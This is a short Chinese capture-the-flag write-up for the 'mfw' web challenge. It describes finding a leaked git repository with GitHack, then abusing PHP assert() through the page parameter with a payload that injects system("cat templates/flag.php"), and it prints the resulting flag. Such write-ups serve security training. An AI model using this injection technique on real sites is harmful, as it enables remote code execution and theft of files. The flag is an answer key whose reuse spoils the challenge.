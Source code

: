 # mfw
## 题目
![1.png](https://i.loli.net/2020/06/03/npcG1OFPkCQmtBL.png)
## 工具
GitHack
## 思路
打开题目场景，检查网站，发现这样一个页面  
![2.png](https://i.loli.net/2020/06/03/cTaMZwFkKjPxhOq.png)

感觉存在git泄露

![3.png](https://i.loli.net/2020/06/03/4rgjBxGKtMIwQNu.png))

![R_H_03SN_Q8FW2YB_52_1A8.png](https://i.loli.net/2020/06/03/8gBR7M6XHLAZdeo.png)
```php
assert() 检查一个断言是否为 FALSE
strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
file_exists() 函数检查文件或目录是否存在。
assert()函数会将括号中的字符当成代码来执行，并返回true或false。
```
payload:`?page=1') or system("cat templates/flag.php");//`  

flag:在源代码中可以看到
```php
<!--?php $FLAG="cyberpeace{183f57e79cdef0ef3daab1a5c9bddf45}"; ?-->
```
